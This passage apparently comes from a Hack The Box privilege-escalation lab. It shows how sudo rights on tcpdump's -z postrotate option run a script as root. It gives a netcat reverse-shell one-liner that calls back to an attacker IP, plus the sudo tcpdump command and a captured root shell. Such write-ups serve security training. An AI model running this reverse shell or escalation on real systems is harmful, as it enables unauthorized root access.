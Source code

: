```bash
htb_student@NIX02:~$ man tcpdump

<SNIP> 
-z postrorate-command              

Used in conjunction with the -C or -G options, this will make `tcpdump` run " postrotate-command file " where the file is the savefile being closed after each rotation. For example, specifying -z gzip or -z bzip2 will compress each savefile using gzip or bzip2.
```

By specifying the `-z` flag, an attacker could use `tcpdump` to execute a shell script, gain a reverse shell as the root user or run other privileged commands. For example, an attacker could create the shell script `.test` containing a reverse shell and execute it as follows:

```bash
htb_student@NIX02:~$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

make a file to execute with the `postrotate-command`, adding a simple reverse shell one-liner

```bash
htb_student@NIX02:~$ cat /tmp/.test

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f
```

Next, start a `netcat` listener on our attacking box run `tcpdump` as root with the `postrotate-command`. If all goes to plan, we will receive a root reverse shell connection.

```bash
htb_student@NIX02:~$ sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

dropped privs to root
tcpdump: listening on ens192, link-type EN10MB (Ethernet), capture size 262144 bytes
Maximum file limit reached: 1
1 packet captured
6 packets received by filter
compress_savefile: execlp(/tmp/.test, /dev/null) failed: Permission denied
0 packets dropped by kernel
```

```bash
lojique@htb[/htb]$ nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.2.12] 38938
bash: cannot set terminal process group (10797): Inappropriate ioctl for device
bash: no job control in this shell

root@NIX02:~# id && hostname               
id && hostname
uid=0(root) gid=0(root) groups=0(root)
NIX02
```
